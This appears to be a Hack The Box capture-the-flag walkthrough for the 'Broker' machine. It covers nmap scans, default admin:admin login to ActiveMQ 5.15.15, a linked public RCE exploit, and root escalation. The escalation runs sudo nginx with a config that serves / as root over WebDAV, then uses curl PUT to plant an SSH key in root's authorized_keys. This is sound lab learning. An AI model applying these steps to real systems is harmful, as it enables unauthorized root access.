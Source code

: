 ```yaml
---
title: "Broker"
date: 2025-03-15
categories: HTB
tags: ["broker", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


# Broker

# Broker

# Summary
- ActiveMQ 5.15.15
# Enumeration
- Using `admin : admin` provides access to the admin portal.
# Initial Access
- Using the public exploit, gain initial access as activemq.
	- Had to install go lang. 
# Privilege Escalation
- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root.a

# Enumeration
## Nmap
# TCP
```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# UDP
```sh
└─$ sudo nmap -sU --top-ports 20 -sV 10.10.11.243 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:34 AEST
Nmap scan report for 10.10.11.243
Host is up (0.017s latency).

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```
## 80-HTTP
![[/assets/images/broker1.png]]
-> signed in as `admin : admin`

![[/assets/images/broker2.png]]
- ActiveMQ 5.15.15
# gobuster
![[/assets/images/broker3.png]]

# Initial Access
https://github.com/X1r0z/ActiveMQ-RCE/tree/main

https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Modified poc.xml
![[/assets/images/broker4.png]]

install golang
https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de

![[/assets/images/broker5.png]]

# Privilege Escalation
![[/assets/images/broker6.png]]
![[/assets/images/broker7.png]]

![[/assets/images/broker8.png]]
```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![[/assets/images/broker9.png]]

change the user to root on `nginx.conf`

we will use the `ngx_http_dav_module` to write our public SSH key into the root user's `authorized_keys` file. To do so, we start by creating the malicious NGINX configuration file, which looks as follows:

pwn.conf
```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![[/assets/images/broker10.png]]

![[/assets/images/broker11.png]]

![[/assets/images/broker12.png]]

From Kali
```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root
```sh
ssh -i broker root@10.10.11.243
```

![[/assets/images/broker13.png]]
